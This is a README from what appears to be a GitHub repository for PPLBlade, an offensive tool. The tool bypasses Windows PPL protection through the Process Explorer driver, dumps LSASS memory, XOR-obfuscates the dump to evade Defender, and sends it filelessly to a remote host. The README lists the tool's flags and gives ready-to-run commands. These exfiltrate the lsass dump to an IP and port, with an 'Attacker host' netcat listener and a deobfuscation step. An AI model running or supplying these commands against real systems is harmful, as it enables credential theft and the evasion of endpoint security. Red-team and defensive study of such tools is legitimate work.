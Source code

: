 # PPLBlade
Protected Process Dumper Tool that support obfuscating memory dump and transferring it on remote workstations without dropping it onto the disk.

**Key functionalities**:
1) Bypassing PPL protection
2) Obfuscating memory dump files to evade Defender signature-based detection mechanisms
3) Uploading memory dump with RAW and SMB upload methods without dropping it onto the disk (fileless dump)


Overview of the techniques, used in this tool can be found here: https://tastypepperoni.medium.com/bypassing-defenders-lsass-dump-detection-and-ppl-protection-in-go-7dd85d9a32e6

_Note that PROCEXP15.SYS is listed in the source files for compiling purposes. It does not need to be transferred on the target machine alongside the PPLBlade.exe._

_It’s already embedded into the PPLBlade.exe. The exploit is just a single executable._

**Modes**:
1) **Dump** - Dump process memory using PID or Process Name
2) **Decrypt** - Revert obfuscated(--obfuscate) dump file to its original state
3) **Cleanup** - Do cleanup manually, in case something goes wrong on execution _(Note that the option values should be the same as for the execution, we're trying to clean up)_
4) **DoThatLsassThing** - Dump lsass.exe using Process Explorer driver _(basic poc)_

**Handle Mode**s:
1) **Direct** - Opens PROCESS_ALL_ACCESS handle directly, using OpenProcess() function
2) **Procexp** - Uses PROCEXP152.sys to obtain a handle 

```
Usage of PPLBlade.exe:
  -driver string
        Path where the driver file will be dropped (default: current directory)
  -dumpmode string
        Dump mode [local|network] (default "local")
  -dumpname string
        Name of the dump file (default "PPLBlade.dmp")
  -handle string
        Method to obtain target process handle [direct|procexp] (default "direct")
  -help
        Prints this help message
  -ip string
        IP of the remote server
  -key string
        XOR Key for obfuscation (default "PPLBlade")
  -mode string
        Kill or Dump process [dump|decrypt|cleanup|dothatlsassthing] (default "dump")
  -name string
        Process name of target process
  -network string
        Method for network transfer[raw|smb] (default "raw")
  -obfuscate
        Obfuscate dump file
  -pass string
        SMB password
  -pid int
        PID of target process (prioritized over process name)
  -port int
        PORT on the remote server
  -quiet
        Quiet mode
  -service string
        Name of the service (default "PPLBlade")
  -share string
        share name
  -user string
        SMB username

Examples:
PPLBlade.exe --mode dothatlsassthing
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
PPLBlade.exe --mode decrypt --dumpname PPLBlade.dmp --key PPLBlade
PPLBlade.exe --mode cleanup
```


**Examples:**

Basic POC that uses PROCEXP152.sys to dump lsass:

```
PPLBlade.exe --mode dothatlsassthing
```
It will use PROCEXP152.sys driver to dump lsass.exe. _(Note that it does not XOR dump file, provide an additional obfuscate flag to enable the XOR functionality)_



Upload the obfuscated LSASS dump onto a remote location:

```
PPLBlade.exe --mode dump --name lsass.exe --handle procexp --obfuscate --dumpmode network --network raw --ip 192.168.1.17 --port 1234
```

Attacker host:
```
nc -lnp 1234 > lsass.dmp
python3 deobfuscate.py --dumpname lsass.dmp
```

Deobfuscate memory dump:
```
PPLBlade.exe --mode descrypt --dumpname PPLBlade.dmp --key PPLBlade
````

